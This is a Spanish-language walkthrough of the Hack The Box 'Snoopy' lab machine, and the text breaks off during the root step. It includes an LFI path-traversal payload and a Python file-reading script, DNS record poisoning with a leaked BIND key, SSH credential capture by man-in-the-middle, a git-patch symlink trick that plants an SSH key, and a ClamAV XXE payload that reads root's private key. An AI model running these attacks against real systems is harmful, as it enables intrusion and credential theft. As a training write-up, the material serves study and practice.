# Scan 
Empezamos realizando un escaneo con ``rustscan -a 10.129.229.5 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```js
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee:6b:ce:c5:b6:e3:fa:1b:97:c0:3d:5f:e3:f1:a1:6e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwa6lTzS8uZRb7EebEXbLkAU0FpJ8k9KO+YwTTeEE7E3VgGZr4vOP4EOZce1XDgwR18wt0WOCiYz6pi6M4y4Lw=
|   256 54:59:41:e1:71:9a:1a:87:9c:1e:99:50:59:bf:e5:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZTgpF2zR6Xamvdn+NyIUGFtq7hXBd7RK3SM00IMQht
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SnoopySec Bootstrap Template - Index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ahora hacemos el escaneo por udp:
```js
PORT   STATE SERVICE REASON         VERSION
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ahora hacemos un ataque de trasferencia de zona:

Añadimos  ``snoopy.htb mattermost.snoopy.htb mm.snoopy.htb provisions.snoopy.htb www.snoopy.htb `` al ``/etc/hosts`` :
Ahora en la pagina principal vemos un botón de descargas y capturamos la petición con burpsuite:

Al ver que el parámetro apunta a un archivo podemos intentar un LFI:

Para descubrir el LFI usamos el intruder en modo sniper con la wordlist de ``/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt``:

Vemos que en la respuesta viene un texto que parece ser un archivo comprimido así que vamos a descargarlo con curl usando el payload ``/....//....//....//....//etc/passwd``:

```bash
curl 'http://snoopy.htb/download?file=/....//....//....//....//etc/passwd' --output x.zip
```
Ahora lo descomprimimos y en su interior encontramos una carpeta que contiene el ``/etc/passwd``:
```js
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
clamav:x:1002:1003::/home/clamav:/usr/sbin/nologin
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
bind:x:108:113::/var/cache/bind:/usr/sbin/nologin
_laurel:x:999:998::/var/log/laurel:/bin/false
```
Los usuarios que tienen la terminal son los siguientes:
```js
root:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
```
Ahora hacemos un script en python para ver los archivos de manera rápida:
```python
import requests
import zipfile
import io

URL = "http://snoopy.htb/download"

def fetch_and_extract(remote_file):
    
    params = {
        'file': f'/....//....//....//....//{remote_file}'
    }

    try:
        response = requests.get(URL, params=params, timeout=10)
        
        if response.status_code == 200:
            
            with zipfile.ZipFile(io.BytesIO(response.content)) as z:
                for filename in z.namelist():
                    print(f"\n[+] Mostrando: {filename}")
                    print("=" * 50)
                    
                    content = z.read(filename).decode('utf-8', errors='ignore')
                    print(content)
                    print("=" * 50)
        else:
            print(f"\n[!] Error: El servidor devolvió status {response.status_code}")
            print(f"[?] Quizás el archivo '{remote_file}' no existe o no hay permisos.")

    except zipfile.BadZipFile:
        print("\n[!] Error: La respuesta no es un archivo ZIP válido.")
        print("    Esto sucede si el archivo solicitado no se encontró o el LFI falló.")
    except Exception as e:
        print(f"\n[X] Error inesperado: {e}")

def main():
    print("--- LFI Explorer: Snoopy.htb ---")
    print("Escribe 'exit' para salir.")
    
    while True:
        try:
          
            target = input("\nArchivo a descargar (ej: etc/passwd): ").strip()
            
            if target.lower() in ['exit', 'quit']:
                print("Saliendo...")
                break
            
            if not target:
                continue
                
            fetch_and_extract(target)
            
        except KeyboardInterrupt:
            print("\n\nSaliendo por interrupción de teclado...")
            break

if __name__ == "__main__":
    main()
```
Ahora miramos el archivo de configuración de dns ``/etc/bind/named.conf``:
```js
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local
include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";
key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
```

``/etc/bin/named.conf.options``Define quién puede pedir una copia completa de la base de datos de nombres (allow-transfer). Aquí permite que cualquier IP del rango ``10.0.0.0/8`` lo haga.

```js
options {
        directory "/var/cache/bind";

        // If there is a firewall between you and nameservers you want
        // to talk to, you may need to fix the firewall to allow multiple
        // ports to talk.  See http://www.kb.cert.org/vuls/id/800113

        // If your ISP provided one or more IP addresses for stable 
        // nameservers, you probably want to use them as forwarders.  
        // Uncomment the following block, and insert the addresses replacing 
        // the all-0's placeholder.

        // forwarders {
        //      0.0.0.0;
        // };

        //========================================================================
        // If BIND logs error messages about the root key being expired,
        // you will need to update your keys.  See https://www.isc.org/bind-keys
        //========================================================================
        dnssec-validation no;
        allow-transfer {10.0.0.0/8;};

        //listen-on-v6 { any; };
};
```

``named.conf.local`` Define la zona ``snoopy.htb``. Lo crítico aquí es la línea: allow-update { key "rndc-key"; };Esto significa que cualquiera que tenga la clave "rndc-key" puede cambiar los registros DNS dinámicamente.

```js
//
// Do any local configuration here
//

// Consider adding the 1918 zones here, if they are not used in your
// organization
//include "/etc/bind/zones.rfc1918";

zone "snoopy.htb" IN {
    type master;
    file "/var/lib/bind/db.snoopy.htb";
    allow-update { key "rndc-key"; };
    allow-transfer { 10.0.0.0/8; };
};
```
# Exploitation
Ahora vamos a realizar un ataque de dns poisoning:
Antes del ataque: Si preguntas por mail.snoopy.htb, el servidor DNS responde con nada o con una IP legítima.
El ataque: Se envía una instrucción al servidor DNS diciendo: "Actualiza el registro de mail.snoopy.htb y haz que ahora apunte a MI IP (10.10.16.23) en lugar de a la verdadera".
Resultado: De ahí en adelante, cuando cualquier servicio (como Mattermost) intente enviar un correo a snoopy.htb, el tráfico irá directamente a la nuestra.
```bash
nsupdate
server 10.129.229.5
key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
update ADD mail.snoopy.htb 60 A 10.10.16.23 
send
```
Ahora montamos un servidor de correo temporal con python para poder restablecer la contraseña de mattermost:
```bash
python -m aiosmtpd -n -l 10.10.16.23:25
```

Ahora usamos el correo de uno de los empleados como ``sbrown@snoopy.htb``:

Ahora entramos al enlace que nos enviaron para restablecer la contraseña:

Ahora lo decodificamos y le quitamos el segundo =:

Y lo buscamos en el navegador:

Ahora usamos el usuario y la contraseña que acabamos de poner para entrar en mattermost:

Ahora vemos conversaciones de los empleados, al escribir ``/`` nos aparece los comandos disponibles:

Hacemos click en server_provision:

Completamos los datos y nos ponemos a la escucha en el puerto 2222 con ``nc -lvnp 2222``:

Al recibir la conexión se cierra inmediatamente:

Y recibimos este mensaje:

Así que vamos a intentar realizar un man in the middle para sacar las credenciales ssh:
Para ello vamos a usar https://github.com/ssh-mitm/ssh-mitm 
```bash
ssh-mitm server --remote-host snoopy.htb --listen-port 2222
```

Capturando así las credenciales ssh de ``cbrown:sn00pedcr3dential!!!``
# Privesc
## Sbrown
Ahora nos conectamos por ssh y enumeramos:
Al hacer ``sudo -l``  vemos que tenemos permisos para ejecutar  ``git`` como ``sbrown``:

Para explotar esto:
En nuestra maquina:
```bash
ssh-keygen -t ed25519 -f id_rsa_sbrown
```
En la maquina victima:
```bash
cbrown@snoopy:~$ mkdir repo
cbrown@snoopy:~$ cd repo/
cbrown@snoopy:~/repo$ git init 

echo 'diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
diff --git a/renamed-symlink/authorized_keys b/renamed-symlink/authorized_keys
new file mode 100644
index 0000000..e69de29
--- /dev/null
+++ b/renamed-symlink/authorized_keys
@@ -0,0 +1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIORqNByIRUGsvA7uS5ayU7B6v5C0fiaAO59DGOfrk28W alvaro@kali
' > patch
```
Ahora nos conectamos usando la clave ssh ``ssh sbrown@snoopy.htb -i id_rsa_sbrown``:

Ahora ya tenemos la user flag. 
## Root
Al volver a enumerar con ``sudo -l`` nos encontramos:

Buscando encontramos el siguiente exploit https://github.com/nokn0wthing/CVE-2023-20052:
```bash
sudo apt-get update && sudo apt-get install -y libssl-dev gcc g++ cmake zlib1g-dev genisoimage bbe git

git clone https://github.com/planetbeing/libdmg-hfsplus.git
cd libdmg-hfsplus
cmake .
make
chmod +x dmg
sudo cp dmg/dmg /usr/local/bin/
genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img .
dmg dmg test.img test.dmg
bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg

